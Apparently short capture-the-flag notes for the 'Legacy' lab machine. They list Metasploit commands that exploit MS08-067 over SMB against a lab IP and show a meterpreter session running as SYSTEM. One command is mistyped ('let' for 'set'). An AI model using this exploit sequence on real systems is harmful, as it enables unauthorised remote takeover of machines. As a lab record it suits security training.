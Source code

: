 ## LEGACY 

OS: Windows XP (Windows 2000 LAN Manager)

eternalblue
[+] 10.10.10.4:445 - The target is vulnerable.

```
msfconsole
use windows/smb/ms08_067_netapi
set rhosts 10.10.10.4
let lhost 10.10.14.28
```

```
meterpreter > getuid
\Server username: NT AUTHORITY\SYSTEM
```
